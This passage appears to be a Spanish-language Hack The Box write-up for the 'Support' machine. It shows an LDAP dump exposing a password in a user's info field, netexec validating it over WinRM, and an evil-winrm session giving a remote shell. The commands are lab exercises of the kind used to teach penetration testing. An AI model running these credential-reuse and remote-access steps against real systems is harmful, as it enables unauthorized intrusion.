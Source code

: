 ```
dSCorePropagationData: 20220528110344.0Z
dSCorePropagationData: 16010101000001.0Z

# Protected Users, Users, support.htb
dn: CN=Protected Users,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: group
cn: Protected Users
description: Members of this group are afforded additional protections against
  authentication security threats. See http://go.microsoft.com/fwlink/?LinkId=
 298939 for more information.
--
# support, Users, support.htb
dn: CN=support,CN=Users,DC=support,DC=htb
objectClass: top
objectClass: person
objectClass: organizationalPerson
objectClass: user
cn: support
c: US
l: Chapel Hill
st: NC
postalCode: 27514
distinguishedName: CN=support,CN=Users,DC=support,DC=htb
instanceType: 4
whenCreated: 20220528111200.0Z
whenChanged: 20220528111201.0Z
uSNCreated: 12617
info: Ironside47pleasure40Watchful
```

## Intrusión

`Validamos credenciales`

```
# netexec winrm 10.129.230.181 -u 'support' -p 'Ironside47pleasure40Watchful'                         
WINRM       10.129.230.181  5985   DC               [*] Windows Server 2022 Build 20348 (name:DC) (domain:support.htb)
WINRM       10.129.230.181  5985   DC               [+] support.htb\support:Ironside47pleasure40Watchful (Pwn3d!)
```

`Accedemos` a la máquina víctima

```
# evil-winrm -i 10.129.230.181 -u 'support' -p 'Ironside47pleasure40Watchful'           
                                        
Evil-WinRM shell v3.5
                                        
Warning: Remote path completions is disabled due to ruby limitation: quoting_detection_proc() function is unimplemented on this machine
                                        
Data: For more information, check Evil-WinRM GitHub: https://github.com/Hackplayers/evil-winrm#Remote-path-completion
                                        
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\support\Documents> whoami
support\support
```

